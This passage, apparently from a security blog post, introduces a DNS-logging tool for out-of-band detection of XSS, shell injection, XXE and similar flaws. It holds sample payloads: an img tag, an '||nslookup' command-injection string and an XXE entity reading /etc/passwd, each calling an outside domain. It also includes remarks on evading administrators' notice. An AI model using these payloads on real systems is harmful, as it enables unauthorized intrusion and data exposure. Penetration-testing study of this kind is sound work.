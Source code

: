 <h2>Why is it so awesome?</h2>

Let's say you're testing for cross-site scripting on a site. Post <tt>&lt;img src="pagenamegoeshere.skullseclabs.org" /&gt;</tt> everywhere. If you later see a request like "adminpage.skullseclabs.org" come in, then guess what? You found some stored XSS on their admin page!

Let's say you're looking for shell injection. Normally, you do something like "vulnerablesite.com/query?q=myquery||ping -c5 localhost". If it takes 5 seconds, it's probably vulnerable to <s>XSS</s>shell command injection [thanks albinowax!]. That's lame. Instead, do a query for "myquery||nslookup pagename.skullseclabs.org". If you see the query, it's definitely vulnerable. If you don't, it's almost certainly not.

Let's say you're looking for XXE. Normally, you'd stick something like "&lt;!ENTITY xxe SYSTEM "file:///etc/passwd" &gt;]&gt;&lt;foo&gt;&xxe;&lt;/foo&gt;" into the XML. That works great - IF it returns the data. If it doesn't, you see nothing, and it probably failed. Probably. But if you change the "file:///" URL to "http://somethingunique.skullseclabs.org", you'll see the request in your DNS logs, and you can confirm it's vulnerable!

Let's say you're wondering if a system is executing a binary you're sending across the network. Create a binary that attempts to connect to binaryname.skullseclabs.org. You'll instantly know if anybody attempted to run it, and in their logs they'll see nothing more than a failed DNS lookup. As far as they know, nothing happened!

The coolest thing is, if you're responding with NXDomain, then as far as the client or IDS/IPS/Wireshark/etc. knows, the domain doesn't exist and the connection doesn't happen. Nothing even <em>attempts</em> to connect - it doesn't even send a SYN. How could it? It just looks at the domain and "NOPES" right outta there.

If some poor server admin has to figure out what's happening, what's s/he going to see? A request to a domain which, if they ping, doesn't exist. At that point, they give up and declare it a false positive. What else can they do, really?

There are so many applications. Looking for SQL injection? Use a command that does a DNS lookup (I don't know enough about SQL to do this). Looking for a RFI vuln? Try to include a file from your domain. Wondering if a company will try emailing you without risking getting an email (I'm sure I can come up with a scenario)? Give them "thisisfake@fakeemail.skullseclabs.org" as your email address. If I try to email that from gmail, it fails pretty much instantly:

<pre>
Delivery to the following recipient failed permanently:

     thisisfake@fakeemail.skullseclabs.org

Technical details of permanent failure:
DNS Error: Address resolution of fakeemail.skullseclabs.org. failed: Domain name not found
</pre>

But I still see that they tried:

<pre>
$ sudo ruby ./dnslogger.rb
dnslogger v1.0.0 is starting!

Starting dnslogger DNS server on 0.0.0.0:53
Got a request for fakeemail.skullseclabs.org [type = MX], responding with NXDomain
Got a request for fakeemail.skullseclabs.org [type = MX], responding with NXDomain
Got a request for fakeemail.skullseclabs.org [type = AAAA], responding with NXDomain
Got a request for fakeemail.skullseclabs.org [type = A], responding with NXDomain
</pre>
